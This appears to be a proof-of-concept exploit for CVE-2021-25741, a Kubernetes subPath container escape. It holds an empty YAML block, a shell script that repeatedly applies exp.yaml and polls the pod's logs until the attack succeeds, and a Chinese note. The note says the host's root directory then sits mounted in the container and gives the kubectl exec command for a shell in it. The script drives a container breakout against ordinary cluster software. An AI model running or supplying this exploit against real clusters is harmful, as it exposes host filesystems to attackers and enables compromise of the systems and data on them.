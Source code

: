 ````yaml
````

````shell
# exp.sh
#!/bin/sh

while [ 1 -lt 2 ]
do
        kubectl apply -f exp.yaml;
        sleep 10; 
        listing=$(kubectl logs cve202125741 my-container);
        if [ "$listing" = "" ];
        then
                echo 'fail.';
                kubectl delete -f exp.yaml;
        else
                echo $listing;
                echo 'Success!';
                exit;
        fi
done
````

运行exp.sh后等待成功，此时主机的根目录已经被挂载进容器的/mnt/data目录，使用`kubectl exec -i -t cve202125741 -c my-container -- /bin/sh`即可访问
